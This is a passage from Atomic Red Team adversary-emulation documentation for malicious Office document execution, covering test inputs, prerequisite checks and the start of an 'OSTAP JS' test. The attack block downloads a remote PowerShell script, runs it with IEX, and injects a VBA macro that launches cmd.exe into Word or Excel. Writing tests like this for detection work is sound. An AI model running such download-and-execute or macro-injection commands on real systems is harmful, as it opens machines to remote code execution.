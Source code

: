 



#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ms_product | Maldoc application Word or Excel | string | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "  a = Shell(`"cmd.exe /c choice /C Y /N /D Y /T 3`", vbNormalFocus)"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
```




#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #4 - OSTAP JS version
Malicious JavaScript executing CMD which spawns wscript.exe //e:jscript
Execution is handled by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.

**Supported Platforms:** Windows


**auto_generated_guid:** add560ef-20d6-4011-a937-2c340f930911

